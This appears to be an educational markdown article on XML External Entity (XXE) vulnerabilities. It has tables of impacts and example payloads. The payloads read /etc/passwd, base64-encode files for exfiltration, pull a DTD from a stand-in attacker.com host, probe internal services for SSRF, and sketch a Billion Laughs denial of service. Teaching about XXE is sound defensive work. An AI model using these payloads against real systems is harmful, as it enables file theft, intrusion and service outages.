

### **Introduction**

XML External Entity (XXE) is a vulnerability where attacker manipulate XML processing to access server files, provoke server-side behaviors, or interact with backend systems, often leading to unauthorized data exposure or system impacts.

### **The Impact of XXE Attacks**

| Impact                           | Description                                                                                                                                                                       |
|--------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Local File Inclusion             | Attacker can access and retrieve the contents of local files by using the "[file://](file://)" scheme.                                                                                  |
| Server-Side Request Forgery (SSRF)| The attacker could force the vulnerable server to send HTTP requests to other servers and then capture the responses using "http://" or "https://".                                      |
| Blind SSRF                       | Even when direct responses aren’t returned, attacker could forward the response data to an external server under their control by nesting entities.                                     |
| Information Disclosure           | Malformed XML payloads could cause the application to unintentionally leak sensitive information.                                                                                       |
| Denial-of-Service (DoS)          | Some XML parsers are prone to vulnerabilities that can crash the system when handling specially crafted XML files.                                                                      |

### **Overview of XXE Exploitation Techniques**

This table outlines different XXE exploitation techniques, showcasing example payloads and their effects. These methods leverage XML parser vulnerabilities to extract data, disrupt services, or access internal systems.

| Payload Type | Example Payload | Description |
| --- | --- | --- |
| Remote Resource Retrieval | `<!ENTITY xxe SYSTEM "http://example.com/malicious.dtd">` | This method retrieves external resources by defining an entity that loads data from a remote URL. |
| Local File Disclosure (LFI) | `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | This technique accesses local files on the server by specifying a local file path |
| Base64 Encoding for Data Exfiltration | `<!ENTITY data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">` | Encodes the contents of local files in Base64 format to bypass simple data leakage protections and exfiltrate data covertly. |
| Error-Induced Information Leakage | `<!ENTITY % err SYSTEM "file:///nonexistent/%file;"> <!ENTITY call '%err;'>` | Intentionally triggers errors that can leak server information or expose other vulnerabilities. |
| Out-of-Band (OOB) Interaction | `<!ENTITY % dtd SYSTEM "http://attacker.com/external.dtd"> %dtd;` | Uses external entities to initiate interactions with an attacker-controlled server, allowing data to be transmitted out-of-band. |
| Blind XXE for Service Probing | `<!ENTITY % xxe SYSTEM "http://internal-service.example.com/"> %xxe;` | Exploits blind XXE to probe internal systems and services by trying to interact with them. |
| Recursive Entity Expansion (Billion Laughs Attack) | `<!ENTITY lol "lol"><!ENTITY lol2 "&lol;&lol;"> ... <!ENTITY lol9 "&lol8;&lol8;">` | Causes a denial of service by creating an exponential growth in processing requirements through nested entities. |
| Parameter Entity Attack for SSRF | `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://private.example.com/"> %xxe;]>` | Uses parameter entities to construct requests for server-side request forgery (SSRF), targeting internal or external systems. |
| Complex Nested Entities | `<!DOCTYPE root [<!ENTITY % pe SYSTEM "http://example.com/ent.dtd"> %pe;]>` | Involves defining entities within entities, potentially leading to complex exploitations and unexpected behaviors from the XML parser. |